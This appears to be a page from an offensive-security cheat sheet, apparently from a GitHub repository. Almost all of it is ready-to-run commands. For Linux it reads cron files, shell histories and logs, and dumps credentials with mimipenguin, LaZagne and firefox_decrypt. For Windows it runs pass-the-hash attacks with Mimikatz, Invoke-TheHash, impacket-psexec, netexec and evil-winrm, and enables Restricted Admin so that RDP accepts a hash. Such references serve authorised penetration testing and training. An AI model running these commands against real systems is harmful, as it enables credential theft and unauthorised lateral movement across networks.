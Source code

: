 ````
$ cat /etc/crontab
$ ls -la /etc/cron.*/
````
**History Files**
````
$ cat /home/*/.bash*
$ cat .bash_history
````
**Log Files**
````
$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
````
**Memory and cache**
````
https://github.com/huntergregal/mimipenguin (Need Root Permissions)
$ sudo python3 mimipenguin.py
$ sudo python2.7 laZagne.py all
````
**Browser credentials**
````
https://github.com/unode/firefox_decrypt
$ python3.9 firefox_decrypt.py
````

## Windows Alternative Authentications

### Pass the Hash

**Mimikatz**
````
> mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<hash> /domain:<domain> /run:cmd.exe" exit
````
**Invoke-TheHash**
````
> Import-Module .\Invoke-TheHash.psd1
> Invoke-SMBExec -Target <IP> -Domain <domain> -Username <user> -Hash <hash> -Command "<command>" -Verbose
````
**Impacket**
````
impacket-psexec <user>@<ip> -hashes :<hash>
````
**Netexec**
````
# netexec smb <IP> -u <user> -d . -H <hash>
# netexec smb <IP> -u <user> -d . -H <hash> -x whoami
````
**Evil-Winrm**
````
$ evil-winrm -i <IP> -u <user> -H <hash>
````
**RDP**
````
Reg Key: reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
$ xfreerdp  /v:<IP> /u:<user> /pth:<hash>
````
